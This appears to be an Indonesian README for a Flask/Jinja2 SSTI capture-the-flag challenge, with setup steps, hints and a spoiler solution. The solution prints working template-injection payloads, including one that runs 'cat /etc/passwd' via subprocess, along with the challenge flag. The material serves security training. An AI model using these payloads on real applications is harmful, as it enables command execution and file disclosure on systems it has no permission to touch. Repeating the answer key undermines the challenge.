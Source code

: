 # Voting Dewan Desa: CTF Challenge - SSTI (Server-Side Template Injection)

> Web CTF Challenge | by [ctflabs-id](https://github.com/ctflabs-id)


---

## 📖 Scenario

Sistem voting digital Desa Sukakamu memiliki fitur komentar yang rentan terhadap SSTI. Peserta harus menemukan dan mengeksploitasi kerentanan ini untuk mendapatkan akses ke sistem.

---

## 🎯 Challenge Overview
**Target:** `http://api-ebook-premium.local:4000`<br>
**Vulnerability:** Server-Side Template Injection (SSTI) pada fitur komentar<br>
**Objective:** Eksploitasi kerentanan SSTI untuk membaca file /etc/passwd dan temukan flag tersembunyi.<br>
**Difficulty:** ⭐⭐⭐⭐☆ (Advanced)

---
## 🛠️ Setup Instructions

Prerequisites:

    Python 3.8+
    Flask
    Jinja2
    
Langkah-langkah:

  1. Clone repository ini
```bash
git clone https://github.com/ctflabs-id/Voting-Dewan-CTF
cd Voting-Dewan-CTF
```
  2. Install dependencies
```bash
pip install flask
```
  3. Start Server
```bash
python app.py
```
  4. Server akan berjalan di [http://localhost:4000](http://127.0.0.1:5000)

---

## 💡 Hints
    🔑 Dapatkan token JWT valid terlebih dahulu via endpoint /login
    🧠 Flask menggunakan Jinja2 sebagai template engine
    📚 Pelajari tentang SSTI di Jinja2
    🛠️ Gunakan payload SSTI untuk membaca file atau RCE
    🚩 Flag berada di endpoint tersembunyi

---

## 🎓 Tujuan Tantangan Ini
  1. Memahami kerentanan Server-Side Template Injection
  2. Belajar mengidentifikasi SSTI di Flask/Jinja2
  3. Mempelajari teknik eksploitasi SSTI
  4. Memahami dampak berbahaya dari render template yang tidak aman

---

## ⚠️ Disclaimer

Challenge ini dibuat hanya untuk edukasi dan simulasi keamanan siber. Jangan gunakan teknik serupa terhadap sistem yang tidak kamu miliki atau tidak diizinkan.

---
<details><summary><h2>🏆 Solusi yang Diharapkan - (Spoiler Allert)</h2></summary>

Peserta harus:

Langkah 1: Identifikasi SSTI
  1. Akses http://localhost:5000/comment
  2. Coba input payload sederhana:
```text
{{ 7*7 }}
```
  3. Jika output menampilkan "49", konfirmasi adanya SSTI
Langkah 2: Eksploitasi SSTI
  Gunakan payload untuk membaca file:
```bash
{{ ''.__class__.__mro__[1].__subclasses__()[414]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip() }}
```
  Atau gunakan payload lebih sederhana:
```bash
{{ config.items() }}
```
Langkah 3: Temukan Flag
  Eksplorasi sistem dengan payload SSTI
  Temukan endpoint admin tersembunyi:
```bash
{{ url_for.__globals__['current_app'].view_functions }}
```
  Akses /admin-secret123 untuk mendapatkan flag
> Flag: CTF_FLAG{SST1_Fl4sk_J1nj4_Un5afe}
</details>

---

## 🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/EBook-Premium-CTF
## 🧠 Maintained by:
```
GitHub: @ctflabs-id
Website: ctflabsid.my.id
```



